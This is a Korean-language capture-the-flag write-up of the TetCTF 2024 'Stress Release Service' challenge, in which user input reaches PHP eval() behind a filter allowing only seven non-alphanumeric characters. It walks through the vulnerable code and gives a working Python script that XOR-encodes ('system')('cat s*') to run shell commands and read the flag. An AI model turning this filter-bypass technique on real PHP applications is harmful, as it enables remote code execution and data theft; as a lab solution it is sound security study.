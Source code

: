 ```yaml
---
title: "[TetCTF 2024] Stress Release Service"
date: 2024-02-03 16:32:53
tags:
categories: [Security, CTF]
---
```


## 개요

> For a better New Year, we are introducing a service that can help you reduce stress.

[chall.zip](/uploads/tet24-stress-release-service/chall.zip)


## 문제 분석

웹페이지에 들어가면 입력 창과 버튼이 하나 있습니다. 버튼을 클릭하면 입력한 내용과 개구리가 함께 출력됩니다.

![1.png](/images/tet24-stress-release-service/1.png)

소스 코드가 제공된 문제로, 플래그는 `secret.php` 에 하드코딩되어 있습니다. 상단에 배포한 파일에는 실제 플래그를 적어놓기는 했지만, 대회 환경에서 배포된 파일에는 가짜 플래그가 적혀 있습니다.

```php
<?php

// Veryyyyyy Secretttttttttttt !!!!!!!!!!!!!!!!!
$FL4ggggggggggg = "TetCTF{*** redacted ***}";

?>
```

`index.php` 를 보면 입력한 내용이 `$voice` 에 대입됩니다. 이후 `validateInput()` 함수의 검증을 통과할 경우 `eval()` 함수의 문자열 인자 중 일부로 전달됩니다. PHP의 `eval()` 함수는 문자열을 코드로 간주하여 실행하는 함수이기 때문에, 임의 코드 실행이 가능한 상황입니다.

```php
if (isset($_GET["shout"]) && !empty($_GET["shout"]) && is_string($_GET["shout"])) {
	$voice = $_GET["shout"];
	$res = "<center><br><br><img src=\"https://i.imgur.com/SvbbT0W.png\" width=5% /> WRONGGGGG WAYYYYYY TOOOO RELEASEEEEE STRESSSSSSSS!!!!!!</center>";
	if(validateInput($voice) === true) {
		eval("\$res='<center><br><br><img src=\"https://i.imgur.com/TL6siVW.png\" width=5% /> ".$voice.".</center>';");
	}

	if (strlen($res) < 300) {
		echo $res;
	} else {
		echo "<center>Too loud!!! Please respect your neighbor.</center>";
	}
}
```

`validateInput()` 함수는 입력이 특수문자로만 이루어져 있는지, 사용한 문자의 종류가 7종을 초과하는지 검사합니다. 즉 이 문제는 특수문자 7종 이하만을 사용한 PHP 코드 작성을 요구하고 있습니다.

```php
function validateInput($input) {
    // To make your shout effective, it shouldn't contain alphabets or numbers.
    $pattern = '/[a-z0-9]/i';
    if (preg_match($pattern, $input)) {
        return false;
    }

    // and only a few characters. Let's make your shout clean.
	$count = count(array_count_values(str_split($input)));
	if ($count > 7) {
		return false;
	}

	return true;
}
```


## 문제 풀이

기존의 특수문자만을 이용한 PHP 코드 실행 문제를 보면 몇 가지 파훼법이 존재합니다. 예를 들어 아래 풀이는 `$_` 변수에 아무 문자열이나 대입한 후, `$_++;` 로 원하는 문자가 나올 때까지 증감 연산을 하는 방법을 사용합니다.

[@preview](https://medium.com/mucomplex/bypass-with-php-non-alpha-encoder-fee4e1bac31e)

그런데 이 문제는 PHP 8.3 버전에서 동작하여 위와 같은 방식을 사용할 수 없습니다. 증감 연산자에 대한 PHP [문서](https://www.php.net/manual/en/language.operators.increment.php)를 보면 8.3 버전부터 문자열에 대한 증감 연산을 더 이상 지원하지 않습니다.

![2.png](/images/tet24-stress-release-service/2.png)

다만 PHP의 논리적 xor 연산자는 문자열 간의 연산을 지원하고 있습니다. `php -a` 로 인터랙티브 셸을 실행하여 확인할 수도 있습니다.

```
Interactive shell

php > echo '(' ^ '\\';
t
```

그렇다면 특수문자 7종 간 xor 연산을 계속하여 코드 실행에 필요한 문자를 모두 얻을 수도 있을 것입니다.

`index.php` 코드를 보면 입력은 `$res = '...` 와 `...';` 사이에 들어갑니다. 따라서 문자열과 코드를 분리하기 위한 `'` 와 `;` 이 필요합니다. 또한 xor과 문자열 덧셈을 위한 `^` 와 `.` , xor 연산식을 감싸기 위한 `(` 와 `)` 를 선택했습니다. 7종을 채우려면 하나가 남는데, 역슬래시 `\\` 를 사용했습니다.

각 알파벳을 가장 적은 횟수의 xor 연산으로 얻는 완전 탐색을 실시하면, 선택한 특수문자 중 최대 6종만으로 모든 문자의 조합이 가능함을 확인할 수 있습니다.

```
{'A': [39, 59, 40, 41, 92],
 'B': [39, 94, 59],
 'C': [39, 94, 59, 40, 41],
...
 'x': [39, 94, 40, 41],
 'y': [39, 94],
 'z': [39, 40, 41, 92]}
```

추가적으로 PHP는 다음과 같이 함수명에 해당하는 문자열을 괄호로 감싸 함수 호출이 가능합니다.

```
Interactive shell

php > system("id");
uid=501(user) gid=1000(user) groups=1000(user)
php >
php > ("system")("id");
uid=501(user) gid=1000(user) groups=1000(user)
```

따라서 `system()` 함수를 호출해 임의 커맨드를 실행할 수 있습니다. 아래 코드는 완전 탐색 후 `("system")("cat s*")` 를 실행하기 위한 특수문자 문자열을 조합합니다.

```python
#!/usr/bin/env python3
from itertools import combinations
from functools import reduce
from operator import xor
import string

tbl = dict()

def gen_table():
    global tbl

    cs = list(map(ord, [b"'", b"^", b";", b"(", b")", b".", b"\\"]))

    for i in range(6, 1, -1):
        for it in combinations(cs, i):
            c = chr(reduce(xor, it))
            if c in string.ascii_letters + " *":
                tbl[c] = list(it)

    return tbl

def rtos(r: list):
    res = "("

    for c in list(map(chr, r)):
        res += "'" + ("\\" if c in ["'", "\\"] else "") + c + "'^"

    return res[:-1] + ")"

def encode(s):
    res = ""

    for i in range(0, len(s)):
        res += rtos(tbl[s[i]]) + "."

    return res[:-1]

def main():
    gen_table()

    f = encode("system")
    a = encode("cat s*")
    print(f"';({f})({a});'")

if __name__ == "__main__":
    main()
```

문자열을 입력하고 버튼을 누르면 개구리 말고 다른 내용은 보이지 않는데, 브라우저의 소스 코드 확인 기능을 이용하면 플래그가 포함되어 있는 것을 확인할 수 있습니다.

![3.png](/images/tet24-stress-release-service/3.png)